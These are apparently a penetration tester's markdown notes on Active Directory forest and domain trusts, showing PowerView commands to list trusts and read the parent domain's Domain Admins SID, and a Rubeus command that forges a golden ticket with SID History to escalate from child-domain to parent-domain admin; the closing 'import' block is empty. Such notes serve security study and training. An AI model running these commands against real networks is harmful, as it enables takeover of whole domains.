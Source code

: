# Forest and Domain Trusts Notes

child domains are added to forests with a transitive, two-way trusts with its parent

list trust
```
powershell Get_DomainTrust
```

things to look at:
- Sourcename - current domain
- Targetname - foreign domain
- TrustDirection - trust direction applied
- TrustAttributes - can tell us if both domains are in a forest. WITHIN_FOREST can indicate a child/parent relationship

DA privs in the child means DA privs in the parent using a TGT with the SID History attribute

**Golden Ticket with SID History**

need target groups SID
```
powershell Get-DomainGroup -Identity "Domain Admins" -Domain <parent domain> -Properties ObjectSid
```

create golden ticket
```
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<krbtgt hash> /user:Administrator /domain:<child domain> /sid:<child domains sid> /sids:<target groups SID> /nowrap
```

import
```

```
